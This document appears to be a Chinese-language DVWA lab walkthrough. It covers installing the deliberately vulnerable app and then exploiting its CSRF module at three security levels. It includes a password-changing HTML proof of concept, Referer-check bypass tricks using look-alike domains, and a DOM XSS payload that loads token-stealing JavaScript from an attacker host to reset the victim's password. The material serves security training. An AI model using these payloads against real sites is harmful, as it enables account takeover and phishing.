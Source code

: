 Damn Vulnerable Web Application (DVWA).

## 1. Install

安装依赖

```
┌──(sec@debian)-[~]
└─$ sudo apt install -y apache2 mariadb-server mariadb-client php php-mysqli php-gd libapache2-mod-php composer
```

Enable `mod_rewrite` 

```
┌──(sec@debian)-[~]
└─$ sudo a2enmod rewrite && sudo systemctl restart apache2.service
```

Clone

```
┌──(sec@debian)-[~]
└─$ sudo -E git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
```

Install API module

```
┌──(sec@debian)-[~]
└─$ sudo composer install -d /var/www/html/dvwa/vulnerabilities/api
```

## 2. Init

Folder Permissions

```
┌──(sec@debian)-[~]
└─$ sudo chown -R www-data:www-data /var/www/html/dvwa/hackable/uploads /var/www/html/dvwa/config \
&& sudo chmod -R 775 /var/www/html/dvwa/hackable/uploads /var/www/html/dvwa/config
```

PHP Configuration

```
┌──(sec@debian)-[~]
└─$ sudo nano -l /etc/php/8.2/apache2/php.ini && sudo systemctl restart apache2.service
```

```
508 display_errors = On
517 display_startup_errors = On
866 allow_url_fopen = On
870 allow_url_include = On
```

释放 Configuration File

```
┌──(sec@debian)-[~]
└─$ sudo cp /var/www/html/dvwa/config/config.inc.php.dist /var/www/html/dvwa/config/config.inc.php
```

Configure

```
┌──(sec@debian)-[~]
└─$ sudo nano -l /var/www/html/dvwa/config/config.inc.php
```

```
20 $_DVWA[ 'db_user' ]     = getenv('DB_USER') ?: 'root';
21 $_DVWA[ 'db_password' ] = getenv('DB_PASSWORD') ?: '123456';
27 $_DVWA[ 'recaptcha_public_key' ]  = '6LeIxAcTAAAAAJcZVRqyHh71UMIEGNQ_MXjiZKhI';
28 $_DVWA[ 'recaptcha_private_key' ] = '6LeIxAcTAAAAAGG-vFI1TnRWxMZNFuojJ4WifJWe';
33 $_DVWA[ 'default_security_level' ] = getenv('DEFAULT_SECURITY_LEVEL') ?: 'low';
```

Click `Create / Reset Database` 

> http://127.0.0.1:60080/dvwa/setup.php

## 3. Usage

登录 `admin:password` 

> http://127.0.0.1:60080/dvwa/login.php

修改安全级别

![修改安全级别](./../../../../../images/DVWA/%E4%BD%BF%E7%94%A8/%E4%BF%AE%E6%94%B9%E5%AE%89%E5%85%A8%E7%BA%A7%E5%88%AB.png)

### 3.1. csrf

> http://127.0.0.1:60080/dvwa/vulnerabilities/csrf/

> 1. 攻击者首先会在自己的个人账户上获取敏感操作的请求包，如：修改密码，修改邮箱，修改手机号，账号删除，转账等操作
> 2. 之后会利用这些请求包构造一个网页形式的 poc，将这个 poc 发送到公网
> 3. 最后诱使目标账号在登录状态下点击 poc 链接，即可伪造用户请求进行敏感操作

### 3.1.1. low

```
目标账户：admin:password
个人账户：gordonb:abc123
```

登录个人账户拦截请求包，并提交修改密码请求

![登录个人账户拦截请求包，并提交修改密码请求](./../../../../../images/DVWA/%E4%BD%BF%E7%94%A8/csrf/low/%E7%99%BB%E5%BD%95%E4%B8%AA%E4%BA%BA%E8%B4%A6%E6%88%B7%E6%8B%A6%E6%88%AA%E8%AF%B7%E6%B1%82%E5%8C%85%EF%BC%8C%E5%B9%B6%E6%8F%90%E4%BA%A4%E4%BF%AE%E6%94%B9%E5%AF%86%E7%A0%81%E8%AF%B7%E6%B1%82.png)

构造 poc

![构造 poc](./../../../../../images/DVWA/%E4%BD%BF%E7%94%A8/csrf/low/%E6%9E%84%E9%80%A0%20poc.png)

将 poc 放在网站上

```shell
┌──(root㉿purple)-[~]
└─# systemctl start apache2 && vim /var/www/html/test.html
```

诱使目标账户在登录状态下访问 poc 链接即可修改目标账户密码修改

> http://kali.local/test.html

> 布置在公网上时可以购买短链接或相似域名伪造官网

### 3.1.2. medium

> 1. 这里使用了 Referer 校验用户请求是否来自官网。
> 2. 假设官网为 `purple.local` ，当用户在这个网站进行操作时校验了服务端当前所在网站为官网，因此是正常请求，不会拦截。
> 3. 但是当目标被诱导使用攻击者伪造的网站 `kali.local` 操作时，服务端会校验当前的网站是否是 `purple.local` ，因此会对 `kali.local` 的请求进行拦截。

绕过方式有两种

1. 域名绕过：伪造网站可申请一个相似域名如 `test.purple.local` 或 `purple.local.cn` 等即可绕过

2. 网址绕过：在伪造网站构造一个含有校验对象的路径，如 `http://kali.local/purple.local.html` 即可绕过

指定 Referer 策略： `no-referrer-when-downgrade` 或 `unsafe-url` 

>  `no-referrer-when-downgrade` 只有当从 HTTPS 降级为 HTTP 时不会发送完整 URL
>
>  `unsafe-url` 永远发送完整 URL
>
> 完整的 URL ：`http://kali.local/purple.local.html` 
>
> 不完整的 URL ：`http://kali.local` 

在一个含有校验对象的路径中构造 POC

```shell
┌──(root㉿purple)-[~]
└─# vim /var/www/html/purple.local.html
```

```html
<!DOCTYPE html>
<html>
<head>
    <meta name="referrer" content="unsafe-url">
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    <meta name="referrer" content="unsafe-url">
</head>
<body>
    <a href="http://127.0.0.1:60080/dvwa/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change" referrer="unsafe-url">
        csrf
    </a>
</body>
</html>
```

### 3.1.3. high

需要利用 xss(dom) 漏洞获取 token 

> 可以利用 # 注释，# 之后的代码不会发送到服务器，但是可以在本地加载

```
http://centos7-6.local/dvwa/vulnerabilities/xss_d/?default=English#%3Cscript%3Ealert(%22hello%22)%3C/script%3E
```

成功注入

![成功注入](./../../../../../images/DVWA/%E4%BD%BF%E7%94%A8/csrf/high/%E6%88%90%E5%8A%9F%E6%B3%A8%E5%85%A5.png)

构造一个 js 文件，通过 xss 漏洞执行这个文件，获取 token 来进行 csrf 攻击

```shell
┌──(root㉿kali)-[~]
└─# vim /var/www/html/csrf.js
```

```js
//弹出cookie
alert(document.cookie);
//定义AJAX加载的页面
	var theUrl = 'http://centos7-6.local/dvwa/vulnerabilities/csrf/';
//匹配浏览器
if (window.XMLHttpRequest){
// IE7+, Firefox, Chrome, Opera, Safari
		xmlhttp=new XMLHttpRequest(); 
	}else{
// IE6, IE5
		xmlhttp=new ActiveXObject("Microsoft.XMLHTTP"); 
	}
	var count = 0;
//页面加载完成后执行函数
	xmlhttp.onreadystatechange=function(){
//判断请求已完成并且响应就绪状态码为200时执行代码
	if (xmlhttp.readyState==4 && xmlhttp.status==200)
	{
//页面内容存储到text中进行匹配token
		var text = xmlhttp.responseText;
		var regex = /user_token\' value\=\'(.*?)\' \/\>/;
		var match = text.match(regex);
		console.log(match);
//弹出token
		alert(match[1]);
		var token = match[1];
//定义payload url并绑定token为我们从页面匹配到的token并且定义新的密码，新密码是admin
var new_url = 'http://centos7-6.local/dvwa/vulnerabilities/csrf/?user_token='+token+'&password_new=123456&password_conf=123456&Change=Change'
//GET方式提交一次new_url
		if(count==0){
			count++;
			xmlhttp.open("GET",new_url,false);
			xmlhttp.send();
		}
}
};
//GET方式提交theUrl
	xmlhttp.open("GET",theUrl,false);
	xmlhttp.send();

```

通过 xss 漏洞加载 js 文件进行 csrf 攻击来修改密码

```
http://centos7-6.local/dvwa/vulnerabilities/xss_d/?default=English#<script src="http://kali.local/csrf.js"></script>
```

> 可将这个 url 放到伪造页面中

---

References

- [DVWA](https://github.com/digininja/DVWA)
